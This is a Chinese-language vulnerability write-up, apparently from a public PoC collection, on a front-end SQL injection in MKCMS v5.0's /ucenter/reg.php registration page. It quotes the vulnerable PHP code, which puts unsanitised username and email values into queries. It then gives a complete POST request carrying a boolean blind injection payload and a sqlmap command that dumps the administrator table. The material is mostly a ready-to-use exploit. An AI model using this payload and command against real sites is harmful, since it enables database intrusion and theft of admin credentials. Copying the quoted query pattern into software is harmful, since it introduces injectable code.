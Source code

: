 ```yaml
---
title: "MKCMS v5.0 /ucenter/reg.php前台注入漏洞"
id: zhfly3022
---
```


# MKCMS v5.0 /ucenter/reg.php前台sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

MKCMS v5.0

## 三、复现过程

漏洞出现在`/ucenter/reg.php`第7-19行:

```
if(isset($_POST['submit'])){
$username = stripslashes(trim($_POST['name']));
// 检测用户名是否存在
$query = mysql_query("select u_id from mkcms_user where u_name='$username'");
if(mysql_fetch_array($query)){
echo '<script>alert("用户名已存在，请换个其他的用户名");window.history.go(-1);</script>';
exit;
}
$result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
if(mysql_fetch_array($result)){
echo '<script>alert("邮箱已存在，请换个其他的邮箱");window.history.go(-1);</script>';
exit;
} 
```

注册用户名时`$username`参数传到后台后经过`stripslashes()`函数处理，而`stripslashes()`函数的作用是删除`addslashes()` 函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题

POC：

```
POST /ucenter/reg.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/ucenter/reg.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Connection: close
Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
Upgrade-Insecure-Requests: 1 `name=test’ AND 1=1 AND ‘inject’='inject&email=sss%[40qq.com](http://40qq.com)&password=ssssss&submit=` 
```

![image](../img/504da08e2c6819f50b5f4f55784279b6.png)

将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：

```
sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump 
```

## 参考链接

> https://xz.aliyun.com/t/4189#toc-1